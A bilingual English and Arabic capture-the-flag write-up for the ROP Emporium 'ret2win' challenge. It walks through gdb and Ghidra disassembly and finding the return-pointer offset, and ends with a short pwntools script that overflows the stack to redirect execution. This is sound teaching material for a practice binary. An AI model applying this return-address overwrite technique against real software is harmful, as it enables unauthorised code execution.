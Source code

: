 # Ret2Win
- Download & Start solve the challenge:
- - ``curl https://ropemporium.com/binary/ret2win.zip -O``
- - ``unzip ret2win.zip``

---------
### And we got this files / نحصل هل ملفات
![](2021-10-01-12-55-36.png)

- ``flag.txt``
- ``ret2win``
-----

![](2021-10-01-13-01-07.png)

- By using  : ``gdb ./ret2win``, to debug a program
- لاستعراض و قرأة البرنامج بلغة اسمبلي ,  ``gdb ./ret2win`` باستخدام
- لعرض دوال البرنامج `info function` بأستخدام

![](2021-10-01-13-08-13.png)

- disassemble ``main()`` function
-  بـ الاسمبلي ``main()`` نعرض داله

![](2021-10-01-13-32-56.png)

* There is call to ``pwnme()`` function
 *  ``pwnme()`` نلاحظ فيه عمليه استدعاء لدالة
  
----
 * disassemble ``pwnme()`` function
 *   بـ الاسمبلي ``pwnme()`` نعرض داله

![](2021-10-01-19-23-32.png)

### ``lea => [Load Effective Address] instruction`` :
``` 
lea    Destination, Source

lea     AX, [BP-0x20] ; 0x20 => 32
AX في المثال هذا يحسب و يقوم بوضع قيمة الأزاحه في المسجل 


* AX (accumulator)  | المجمع او مركم
لعمليات الـ ادخال والاخراج وعمليات الحساب AX يستخدم المسجل

* BP (Base Pointer) | مؤشر القاعدة
stack/للتخاطب/ للأشاره مع البينات الموجوده حالياّّ في المكدس BP يستخدم المسجل
```
-----

* or using ``Ghidra`` to help us ``decompiler`` to source code
* ``decompiler`` تساعدنا نسوي  ``Ghidra`` او باستخدام 
*  source code ونستخرج سورس **تقريبي** الى حالته الاصليه
 
 
![](2021-10-01-19-40-51.png)

---
- disassemble ``ret2win()`` function
-   بـ الاسمبلي ``ret2win()`` نعرض داله

![](2021-10-01-19-57-16.png)

  لتوضيح ``Ghidra`` صوره من خلال

![](2021-10-01-19-59-08.png)

----
حلو حالياََ فهمنا عمل البرنامج و مكان الاصابه , باقي الاستغلال ..

المتطلبات : 
- 1 - find the ``RIP`` offset 
- 2 - ``ret2win()`` function address
- 3 - write the script

---
## 1 .
-  عندنا اضافة جميله ``peda`` من خلال
-   بسهوله ``offset`` ونستخرج الـ ``pattern`` نقدر ننشئ 
-   ``pattern_create 56``

![](2021-10-01-20-19-12.png)

- ``RIP`` لنستخرج وين بالضبط يتم الكتابه على سجل الـ  ``pattern`` نشغل البرنامج ونضع الـ 
- ``run/r`` لتشغيل البرنامج

![](2021-10-01-20-28-19.png)

**RSP** -> ``AA0AAFAA``
```
SP (Stack Pointer) مؤشر المكدس
وظيفته بشكل مختصر يؤشر إلى أعلى المكدس الحالي
```
- ``pattern offset AA0AAFAA``

![](2021-10-01-20-32-17.png)

----
## 2 .
- وبكذا نقدر نكتب السكربت ونحصل الفلاق ``ret2win()`` function address ناقصنا حالياََ الـ 
- ``p/print ret2win``

![](2021-10-01-20-40-58.png)

-----
## 3 .
```python
from pwn import *

p = process("./ret2win")
p.recv()

payload  = b"A" * 40
payload += p64(0x40053e) # ret 
payload += p64(0x400756) # ret2win() address
# p64() -> https://docs.pwntools.com/en/stable/util/packing.html#pwnlib.util.packing.p64

p.send(payload)
print(p.recvall().decode("UTF-8"))
```
* ``push instruction`` لـ تخطي الـ  ``extra ret`` استخدمت الـ
* https://ropemporium.com/guide.html#Common%20pitfalls
* [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) : بستخدام 

![](2021-10-01-20-58-33.png)

![](2021-10-01-20-50-35.png)


